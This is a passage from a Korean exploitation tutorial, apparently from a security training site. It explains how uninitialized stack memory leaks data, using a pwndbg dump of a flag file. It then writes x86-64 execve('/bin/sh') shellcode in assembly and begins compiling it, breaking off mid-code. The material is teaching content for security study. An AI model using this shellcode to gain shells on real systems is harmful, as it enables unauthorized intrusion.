 0x7fffffffdf18에서 0x30(48)바이트를 출력한다. 여기서도 "/tmp/flag"의 내용 뒤에 알 수 없는 문자열이 출력되었다. 이는 초기화되지 않은 메모리 영역을 사용했기 때문에 발생하는 문제이다.

> ##### 초기화 되지 않은 메모리 사용(Use of Uninitialized Memory)
> 스택은 다양한 함수들이 공유하는 메모리 자원이다. 그러나 각 함수들이 스택 프레임을 할당하고 해제할 때 그 내용을 초기화하는 것이 아니라 단순히 `rsp`와 `rbp`를 새로 호출한 함수의 것으로 이동시킨다. 따라서 어떤 함수가 스택 프레임을 해제하고 다른 함수가 그 위에 스택 프레임을 할당하면 이전 스택 프레임의 값이 남아있게 된다. 이를 쓰레기 값(garbage data)라고 한다.

이전과 같이 파일을 읽어 스택에 저장하고 이를 조회해본다.

```gdb
pwndbg> x/6gx 0x7fffffffdf18
0x7fffffffdf18:	0x6968747b67616c66	0x65706f5f73695f73
0x7fffffffdf28:	0x775f646165725f6e	0x6568735f65746972
0x7fffffffdf38:	0x7d2165646f636c6c	0x000055555555460a
```

총 48바이트 중 앞의 40바이트만이 우리가 저장한 파일의 데이터이고 나머지는 쓰레기 값이다. 이것이 나중에 이상한 문자열로 출력되는 것이다.
중요한 값을 유출해 내는 것을 메모리 릭(Memory Leak)이라고 부르며 다양한 보호기법들을 무력화하는 핵심 역할을 한다.

## execve 셸코드
execve 셸코드는 임의의 프로그램을 실행하는 셸코드이며 이를 이용하면 서버의 셸을 획득할 수 있다. 일반적으로 셸코드라고 하면 이를 의미하는 경우가 많다.
여기서 사용하는 Ubuntu 18.04에도 "/bin/sh"가 존재하므로 이를 실행하는 execve 셸코드를 작성해본다.

![](https://kr.object.ncloudstorage.com/dreamhack-content/page/c572f2f71b18e75d8fdc4ef185deebd184111decb487a7423131ab6a906243b9.png)

### execve 셸코드 작성
execve 셸코드는 execve 시스템 콜만으로 구성된다.

| syscall | rax  | arg0 (rdi)            | arg1 (rsi)                | arg2 (rdx)                |
| ------- | ---- | --------------------- | ------------------------- | ------------------------- |
| execve  | 0x3b | const char \*filename | const char \*const \*argv | const char \*const \*envp |

여기서 argv는 실행파일에 넘겨줄 인자, envp는 환경변수이다. sh만 실행하면 되므로 다른 값들은 전부 null로 설정한다. 리눅스에서는 기본 실행 프로그램들이 "/bin/" 디렉토리에 저장되어 있으며, sh도 여기에 저장되어 있다.

```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

"/bin/sh"를 실행하기 위해서 스택에 `0x68732f6e69622f(/bin/sh)`를 `push`하고 `rsp`를 `rdi`로 옮긴다. execve의 arg0, arf1은 NULL이므로 `rsi`와 `rdx`를 0으로 하고 `syscall` execve를 위해 `rax`의 값을 0x3b로 설정한다.

### execve 셸코드 컴파일 및 실행
##### 컴파일

```C
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
".global run_sh\n"
"run_sh:\n"

"mov rax, 0x68732f6e69622f\n"
"push rax\n"
"mov rdi, rsp\n"
"xor rsi, rsi\n"
"xor rdx, rdx\n"
"mov rax, 0x3b\n"
```